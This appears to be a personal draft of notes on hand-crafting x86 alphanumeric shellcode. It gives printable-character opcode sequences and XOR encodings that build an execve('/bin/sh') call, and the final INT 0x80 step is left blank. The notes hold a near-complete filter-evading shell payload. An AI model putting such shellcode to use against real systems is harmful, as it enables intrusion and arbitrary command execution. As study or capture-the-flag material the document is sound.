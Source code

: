 # Draft

## Reference
- http://skypher.com/wiki/index.php?title=X86_alphanumeric_opcodes
- turn on markdown syntax in VIM: ```au BufRead,BufNewFile *.md set filetype=markdown```

## Procedures
### [P1] ECX: set to 0
```
j 0:            PUSH 0x30
X:              POP EAX
H:              DEC EAX     * 48
P:              PUSH EAX
Y:              POP ECX
```

### [P2] EDX: set to 0
```
P:              PUSH EAX
Z:              POP EDX
```

### [P3] PUSH 0 ('\0' for string "/bin/sh")
```
R:              PUSH EDX
```

### [P4] PUSH 0x68732f2f

```
INPUT:
0   0   0   0   0   0   3   0

XOR-1:
X       C       C       J
5   8   4   3   4   3   4   A

XOR-2:
0       0       l       U
3   0   3   0   6   c   5   5

TARGET:
6   8   7   3   2   f   2   f
```

```
j 0:            PUSH 0x30
X:              POP EAX
5 J C C X:      XOR EAX, $0x5843434A
5 U l 0 0:      XOR EAX, $0x30306c55
P:              PUSH EAX
```

### [P5] PUSH 0x6e69622f

```
INPUT:
0   0   0   0   0   0   3   0

XOR-1:
Y       Y       R       J

XOR-2:
7       0       0       U

TARGET:
6   e   6   9   6   2   2   f
```

```
j 0:            PUSH 0x30
X:              POP EAX
5 J R Y Y:      XOR EAX, $0x5959524A
5 U 0 0 7:      XOR EAX, $0x37303055
P:              PUSH EAX
```

### [P6] MOV EBX, ESP
Push ESP into stack, then push "POP EBX" instruction into stack, where EIP will point to.

```
INPUT:
0   0   0   0   0   0   3   0

XOR:
4   F   4   F   4   F   6   B

TARGET:
4   F   4   F   4   F   5   B

- 4F: DEC EDI (NO-OP)
- 5B: POP EBX
```

```
T:              PUSH ESP
j 0:            PUSH 0x30
X:              POP EAX
5 k O O O:      XOR EAX, $0x4F4F4F6B
P:              PUSH EAX
```


### [P0] EAX: set to 11 (0x0b)
```
j 0:            PUSH 0x30
X:              POP EAX
H:              DEC EAX     * (48-11) = 37
```

### [P8] INT 0x80

